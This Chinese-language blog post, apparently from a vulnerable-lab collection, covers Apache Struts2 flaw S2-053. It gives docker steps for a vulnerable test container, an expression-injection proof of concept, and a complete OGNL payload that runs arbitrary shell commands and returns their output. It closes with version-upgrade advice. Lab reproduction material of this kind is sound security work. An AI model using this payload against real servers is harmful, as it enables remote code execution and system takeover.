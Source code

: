 ```yaml
---
layout: post
title: "Struts2 远程代码执行漏洞(S2-053)"
date: 2017-09-08 00:56:15 +0800
image: '/assets/img/'
description: 'Struts2 Freemarker tags 远程代码执行漏洞(S2-053)环境'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: 'Struts2 远程代码执行漏洞(S2-053)'
introduction: 'Struts2 远程代码执行漏洞(S2-053)'
---
```


### 漏洞信息

 * [S2-053 公告](https://cwiki.apache.org/confluence/display/WW/S2-053)

### 获取环境:

1. 拉取镜像到本地
 ```
$ docker pull medicean/vulapps:s_struts2_s2-053
 ```

2. 启动环境
 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-053
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### PoC

1. 访问 Demo 页面, 随便输入值，可看到页面输出我们提交的值
 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-053/poc-1.png)

2. 在输入框中输入 `%{100-3}`，然后提交，发现 `%{}` 中的表达式被执行
 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-053/poc-2.png)

#### Exp

命令执行 Exp(有回显):

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```

替换Exp中的 `(#cmd='whoami')` 中的命令即可

 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-053/exp-1.png)

### 修复建议

升级Apache struts 至 2.5.12 版本 或者 2.3.34 版本

### 参考链接

* [S2-053 公告](https://cwiki.apache.org/confluence/display/WW/S2-053)
* [S2-053 复现分析过程(附POC) - 猎户攻防实验室](https://mp.weixin.qq.com/s/4CiKgVn7Y-hWUKRjgECsuA)
